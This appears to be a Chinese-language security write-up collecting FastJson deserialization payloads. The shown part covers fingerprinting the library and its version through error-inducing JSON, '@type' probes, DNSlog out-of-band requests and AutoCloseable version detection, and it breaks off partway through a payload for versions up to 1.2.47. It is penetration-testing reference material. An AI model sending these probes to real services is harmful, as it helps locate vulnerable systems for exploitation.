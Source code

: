 # 前言
总结的一些针对FastJson特定版本的Poc利用，所有Poc都已测试全部通过。主要针对FastJson的几大里程碑版本，1.2.47、1.2.68、1.2.80，可能会存在些许偏差，因为同样需考虑到FastJson版本、JDK版本、引入的其他依赖版本、机器是否出网等信息，请根据实际情况做进一步测试和利用。
本篇文章只是复现和罗列了一些能收集到的可利用的链子，后面会深入代码层面分析各个大版本绕过和利用思路(真的太多了)，每一次看都会有很深的感悟。FastJson很深，也很适合Java研究。
下次在遇到JSON格式且确定是FastJson框架时千万别一眼略过，或许会有想不到的惊喜！
# 鉴别FastJson
## 利用报错
参考：[https://blog.csdn.net/m0_71692682/article/details/125814861](https://blog.csdn.net/m0_71692682/article/details/125814861)
不闭合JSON的花括号或者双引号,通过报错可能会将Fastjson爆出来
```json
{"name":"hello", "age":2
{"name"":"hello", "age":2}
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1691056654413-b85ca955-c9a7-48dd-b1e2-164c951eda2d.png#averageHue=%23f8f8f7&clientId=u067551ab-1efd-4&from=paste&height=330&id=D1EVn&originHeight=412&originWidth=1269&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=78424&status=done&style=none&taskId=udd1b7a53-5bb3-4afc-b927-c82539c35d7&title=&width=1015.2)
## 根据解析变化
```json
{"a":new a(1),"b":x'11',/*\*\/"c":Set[{}{}],"d":"\u0000\x00"} {"ext":"blue","name":{"$ref":"$.ext"}}
```
## 查看响应状态
```json
{"@type":"whatever"}
```
## Dnslog-出网
DNS能接收到请求则使用FastJson。
```json
{
  "@type":"java.net.Inet4Address",
  "val":"dnslog"
}
```
# FastJson版本检测
若是白盒或其他能拿到代码的情况下直接看pom.xml中引入的FastJson的依赖或lib目录下的jar包即可。黑盒情况下需要一些手法来检测是否使用FastJson或者FastJson具体版本。后面会写一篇
## AutoCloseable精确探测版本号
```java
{
  "@type": "java.lang.AutoCloseable"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692023208411-ffb7a3df-b155-45f1-80d6-67b423a7b4d2.png#averageHue=%23fdfdfd&clientId=ua12c8ebe-585b-4&from=paste&height=154&id=uf375351c&originHeight=193&originWidth=1371&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36711&status=done&style=none&taskId=u1f6c7fdb-1979-4d8d-841d-0ca58caeeae&title=&width=1096.8)
注意：在FastJson版本大概1.2.76后，即便是通过这种方式探测出精准的FastJson版本，也是1.2.76，即便是使用的1.2.80的依赖，因为在源码中并没有改变。
## Dnslog
```json
//  <=1.2.47
[
  {
    "@type": "java.lang.Class",
    "val": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
```